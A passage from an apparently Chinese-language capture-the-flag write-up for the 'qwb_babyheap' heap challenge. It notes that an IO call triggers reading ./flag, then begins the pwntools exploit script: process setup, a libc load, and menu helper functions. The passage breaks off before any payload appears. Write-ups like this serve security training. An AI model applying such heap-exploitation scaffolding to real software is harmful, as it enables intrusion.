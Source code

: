 ![qwb](/image/qwbs8/1.png)  

观察一看，确实如此. 后续直接随便调用 IO 即可触发. 如下所示读取了 `./flag` 并且输出了 flag{...}

![qwb](/image/qwbs8/2.png)  


### [](#header-3)EXP


```py
#by leeya_bug

from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/qwb_babyheap')
libc = ELF('./glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

def debug():
	subprocess.Popen(["qterminal", "-e", f'bash -c "pwndbg -p {p.pid}" '])
	p.interactive()
	
#------------- 基本配置 -------------

def add_com(size: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'1')
	p.sendlineafter(b'size', str(size).encode())
	
def del_com(index: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'2')
	p.sendlineafter(b'delete:', str(index).encode())
	
def edit_com(index: int, content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:',b'3')
	p.sendlineafter(b'edit:', str(index).encode())
	p.sendlineafter(b'Input the content', content)
	
def show_com(index: int) -> bytes:
	p.sendlineafter(b'Enter your choice:',b'4')
	p.sendlineafter(b'show:', str(index).encode())
	p.recvuntil(b'The content is here \n')
	return p.recvuntil(b'Menu:')

```